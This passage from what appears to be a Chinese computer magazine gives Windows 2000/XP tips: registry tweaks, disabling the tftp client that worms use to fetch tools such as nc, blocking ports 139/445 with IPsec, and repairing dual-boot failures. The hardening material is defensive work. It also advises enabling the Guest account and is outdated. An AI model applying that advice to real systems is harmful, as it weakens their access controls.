打开注册表，找到 `HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\RemoteComputer\NameSpace`，下面有两个分支：一个是 `{2227A280-3AEA-1069-A2DE-08002B30309D}` 表示“打印机”。另一个是 `{D6277990-4C6A-11CF-8D87-00AA0060F5BF}` 表示“任务计划”，把这两个主键都删除，然后退出注册表，不用重新启动计算机，再次打开“网上邻居”里的“邻近的计算机”，浏览速度会大大加快。经过长期运行发现，删除这两项并不会影响网络打印机和任务计划的执行，不知这是不是 Windows 2000 的一个 Bug。

另外，刚安装好的 Windows 2000 是无法浏览其他计算机的。出于安全方面的考虑，在默认状态下，Windows 2000 禁止外来计算机的访问。点击“管理工具→本地用户和组”找到 Guest 用户，去掉“账号已停用”即可。上述方法同样适用于 Windows NT 4.0。

### 禁止 Windows 自带 tftp 客户端的使用

文 / abu.

> 编者按：有道是“细微之处见真功”，网络安全配置从来不是随便标几个补丁、关几个服务、封几个常见端口就大功告成、高忧无虑甚至一劳永逸的事情。网络安全隐患与漏洞是无所不在和变化无穷的，且常见于人所极不经意之处，下面又是一个绝非众人皆知的 Windows 安全配置重要环节。看后或许会使你能防患于未然。

大家都知道，很多网络蠕虫或黑客攻击程序都尝试通过某种漏洞获得命令行的执行权限，而在这些获得权限的过程中，蠕虫往往是通过 Windows 自带的 tftp 客户端程序去获取一些需要的攻击程序或后门程序的，如 iishack、nc 之类。

如何禁止 Windows 自带的 tftp 客户端运行呢？删掉或者移动走？不行，因为在 Win 2000 下，tftp.exe 之类的系统关键程序受到 Windows File Protection 系统的保护，无法直接更改。有一个简单的方法可以让 tftp 客户端程序无法使用，具体看下面的介绍：

- **1. 测试正常的 tftp 传输**
  - 启动一个 tftp 服务器，并放入一个名字叫 snmp.zip 的程序，作为测试用。
  - 启动命令行 tftp 客户端，下载 snmp.zip 程序（见图 1）。
  - 一切正常，通过 `tftp -i 对方IP GET 文件名` 获取对方的程序。



- **2. 进行设置，禁止 tftp 客户端运行**
  - 用文本编辑工具打开 `%systemroot%\system32\drivers\etc` 下的 services 文件。
  - 找到对应的 tftp 那一行（见图 2）。



将 `69/udp` 替换成 `0/udp` 保存退出。我们再尝试看能否使用 tftp 了（见图 3）？已经报 `Timeout occurred` 了。好了，禁用成功！这样，就无法从命令行方式下进行 tftp 的文件传输了。这也使我们从侧面达到了保护自己服务器的目的。



## 通过本地安全策略来禁止 139/445 端口的连接

文 / 宫城良田

> 编者按：有些网络安全常识的读者朋友可能都知道 TCP 139、445 端口开放时存在的安全隐患，这意味着已为系统入侵者进行诸如空连接之类的常规攻击大开方便之门，关闭之以禁止其连接便成为广大网管以及不愿自己爱机被“黑”的个人用户们的必备意识和重要任务，特别是微软公司在其 Windows 2000 中已为此提供了简单易行的管理工具，看过下面的文章，你便可如法炮制，为自己系统的 139、445 端口进行一番安全策略定制。



也许大家都知道网上有些扫描器如 Letmein.exe、Whoisadmin.exe 等，是通过 TCP 的 139 和 445 端口来获取一些计算机相关信息，如计算机的名称，管理员账号。这样便可以通过相应的攻击工具进行入侵了。当知道了管理员的账号后，可以猜测或暴力破解其密码来获得计算机的控制权。后果将……怎么办呢？利用 Windows 2000 自身的策略设置，就能解决。LOOK！我们采取对本地安全设置里的“IP 安全设置，在本地机器”来进行设置，禁止 TCP 的 139/445 连接。

在进行策略设置前，首先来了解一下相应的原理吧！

#### 概念

- **SMB（Server Message Block）**：Windows 协议族，用于文件和打印共享服务。
- **NBT（NetBIOS over TCP/IP）**：使用 137（UDP）、138（UDP）and 139（TCP）来实现基于 TCP/IP 的 NetBIOS 网际互联。

#### 内容

在 Windows NT 中 SMB 基于 NBT 实现。而在 Windows 2000 中，SMB 除了基于 NBT 的实现，还有直接通过 445 端口实现。

当 Windows 2000（允许 NBT）作为 Client 来连接 SMB 服务器时，它会同时尝试连接 139 和 445 端口，如果 445 端口有响应，那么就发送 RST 包给 139 端口断开连接，以 445 端口通讯来继续。当 445 端口无响应时，才使用 139 端口。

当 Windows 2000（禁止 NBT）作为 Client 来连接 SMB 服务器时，那么它只会尝试连接 445 端口，如果无响应，那么连接失败。（注意可能对方是 NT 4.0 服务器。）

如果 Windows 2000 服务器允许 NBT，那么 UDP 端口 137、138，TCP 端口 139、445 将开放。如果 NBT 被禁止，那么只有 445 端口开放。简单的原理就这些了，那如何实现呢？方法如下：

- **1. 访问策略设置**
  通过“开始→程序→管理工具→本地安全策略”，鼠标右击“IP 安全策略，在本地机器”（如图 1）。



点击“管理 IP 筛选器表和筛选器操作”后在“管理 IP 筛选器列表”选项卡上点击“添加”（如图 2）。会弹出“IP 筛选器列表”窗口（如图 3）。分别添入名称和描述，如“禁用 139 连接”，并点击“添加”，接着会出现一个“IP 筛选器向导”，单击“下一步”（如图 4）。





来到“指定 IP 源地址”窗口，在“源地址”中选择“任何 IP 地址”，点击“下一步”（如图 5）。在“IP 通信目标”的“目标地址”选择“我的 IP 地址”，点击“下一步”（如图 6）。在“IP 协议类型”的“选择协议类型”选择“TCP”，点击“下一步”（如图 7）。





在“筛选器向导”的“设置 IP 协议端口”里第一栏为“从任意端口”，第二栏为“到此端口”并添上“139”，点击下一步（如图 8）。



接着点击“完成”→然后再单击“关闭”回到“管理 IP 筛选器表和筛选器操作”窗口（如图 9）。



选择“管理筛选器操作”选项卡点击“添加”（如图 10）。同样会出现一个“筛选器操作向导”的窗口，点击“下一步”，在“名称”里添上“禁止 139 连接”（如图 11）。按“下一步”，并选择“阻止”，再按“下一步”（如图 12）。点击“完成”和“关闭”。

到这里“禁止 139 连接”的策略算是制定好了。不用多说了，禁用 445 端口的“筛选器列表”和“筛选器操作”的添加是和“禁止 139 连接”的方法一样的！

有一点是需要注意的，在添加 139 和 445 的筛选器操作时，不能为了省事用同一个“阻止”筛选器操作，这样制定出的规则将无法使用。不信你可以试试！

- **2. 创建 IP 安全策略**
  当禁止 139/445 的操作都完成后，回到“IP 安全策略，在本地机器”，通过右击创建“IP 安全策略”（如图 13）。会出现一个“IP 安全策略向导”的窗口，直接点击“下一步”，在“名称”添入“禁止 139/445 连接”，一直点击“下一步”到“完成”（如图 14）。

在“禁用 139/445 连接属性”里点击“添加”（如图 15）。会出现一个“安全规则向导”窗口，一直点击“下一步”到“IP 筛选器列表”选择“禁用 139 连接”，点击“下一步”（如图 16）。在“筛选器操作”选择“禁用 139 连接”，点击“下一步”，接着点击“完成”和“确定”（如图 17）。

- **3. 添加 445 端口规则**
  此时，可以通过“添加”将禁用 445 端口的筛选器列表和操作也加进去（如图 18）。接着是一直点击“下一步”，到“IP 筛选器列表”，选择“禁用 445 连接”，点击“下一步”（如图 19）。在“筛选器操作”里选择“禁用 445 连接”，点击“下一步”（如图 20）。

此时，已经完成了所有的配置。点击“关闭”。回到“属性”窗口，设置好的窗口呈现如下（如图 21）。

- **4. 指派策略**
  最后，将我们刚才配置好的“禁用 139/445 连接”的安全策略指派即可。大功告成啦！（如图 22）

当然，如果你已有了自己的策略或使用系统自带的策略，也是可以通过添加规则的方法来实现禁用 139/445 的目的，但创建“IP 筛选器列表”和“管理筛选器操作”是一定要做的。

同理你也可以通过 IP 安全设置里，对 ICMP 进行策略的制定，限制 ping 工具的使用。原理详见 shotgun 早期的一篇酷文《在 Windows 2000 中如何关闭 ICMP (Ping)》。

现在用 letmein 之类的扫描器再试试吧！

附：这是未作禁用 139/445 策略时，用 letmein.exe 和 whoisadmin.exe 的探测结果，如图 23、24。作过禁用 139/445 策略后的探测结果就变成了这样，如图 25。

注：以上的测试是在域控制器上做的，如果不是的话，在 2000 Server 上操作的过程中会有如下的提示：（如图 26）不需要去管它，点击“是”就可以了！

### 对 Windows XP 启动故障的诊断

文 / 廉育劲

**故障一：** 朋友的计算机装有 Windows 98 和 Windows XP，使用一段时间后重新安装 Windows 98，造成 Windows XP 无法启动。

**故障分析：** 重新安装的 Windows 98 将位于系统启动分区根目录下的 Windows XP 启动文件覆盖，造成 Windows XP 无法启动。

**故障的解决：** 知道了原因，该故障就会迎刃而解了。解决问题的关键是重装 Windows XP 的 OS Loader（提示：Windows NT/2000 与 Windows XP 的引导程序），将 Windows XP 的安装盘放入光驱，然后进入 Windows XP 的安装程序，待其将安装程序拷贝到你的磁盘后立即停止，然后再回到系统启动分区的根目录，编辑 Boot.ini 文件，将其中所有的“$”删除即可。这里提醒大家注意的是，一定要掌握好安装的分寸，因为我们安装的只是 Windows XP 的引导程序而不是重装 Windows XP！什么，找不到 Boot.ini 文件？好吧，那我再介绍一下找到 OS Loader 启动文件的方法：

首先，确认并找到系统启动分区，并进入其根目录。然后，打开菜单栏中的“工具”菜单，选择“文件夹选项”，在“文件夹选项”窗口中选择“查看”标签页，再将“隐藏受操作系统保护的文件（推荐）”前的勾去掉，这时会弹出一个警告对话框，不必理它，选“确定”就是了。还有，要把“隐藏文件和文件夹”置于“显示所有文件和文件夹”，选择“确认”后再回到系统盘目录，这时你会发现在该目录下，会出现许多系统和隐藏文件，即可找到 Boot.ini、ntldr、ntdetect.com 这三个重要的启动文件了（注意：在编辑好 Boot.ini 文件后，一定要将刚才的改动再改回来）。

**故障的预防：** 其实，这样的故障本可以不发生，只要在重装 Windows 98 时，使用 Windows 98 的启动盘启动，这时，在启动画面上就会出现“Windows 98 安装”这么一条选项，选择它，你就可以放心地安装了！

**故障二：** 朋友的计算机原来为 Windows 98 与 Windows XP 双启，后来觉得 Windows 98 不够稳定，遂将其升级为 Windows 2000，造成 Windows XP 无法启动。

**故障分析：** 将 Windows 98 升级为 Windows 2000，Windows 2000 改写了 ntldr、ntdetect.com、boot.ini 这三个重要的启动文件，Windows 2000 无法引导 Windows XP，造成 Windows XP 无法启动。

**故障的解决：** 解决该故障的关键是用 Windows XP 引导 Windows 2000（注意：Windows 2000 引导不了 Windows XP，但 Windows XP 可以引导 Windows 2000），即使用 Windows XP 的 ntldr、ntdetect.com 文件启动系统，让 Windows XP 引导 Windows 2000。

先启动 Windows 98，然后从 Windows XP 的安装光盘的 i386 目录中提取 ntldr、ntdetect.com 文件，将这两个文件拷贝到系统启动分区根目录下并将其置为只读、隐藏属性。这样即可启动你的 Windows XP 了。如果你平常主要使用 Windows XP 工作，想将默认的启动选项改回为 Windows XP 的话，只需使用记事本编辑一下 Boot.ini 文件，将该文件中 Windows XP 的启动条目拷到“default=”后即可，如下：

```ini
[boot loader]
timeout=7
default=multi(0)disk(0)rdisk(0)partition(2)\Windows
[operating systems]
multi(0)disk(0)rdisk(0)partition(1)\Windows="Microsoft Windows 2000 Professional" /fastdetect
multi(0)disk(0)rdisk(0)partition(2)\Windows="Microsoft Windows XP" /fastdetect
```

最后，将其置为只读、隐藏属性保存到系统启动分区的根目录下即可。

另外的一种方法是：从其他可正常启动、装有相同版本 Windows XP 的机器中，将这三个文件拷贝过来，再根据需要按照上面的方法编辑 boot.ini 文件就行了。

**故障的预防：** 只需在升级前将那三个启动文件备份，然后从 Windows 98 的启动盘安装 Windows 2000，安装完成后再将那三个备份文件恢复到系统启动分区的根目录，即可避免上述麻烦出现。

**故障三：** 朋友的系统更新 Windows XP 的一个驱动程序后，Windows XP 无法启动。

**故障分析：** 显然是新安装的驱动程序存在问题，造成 Windows XP 无法启动！

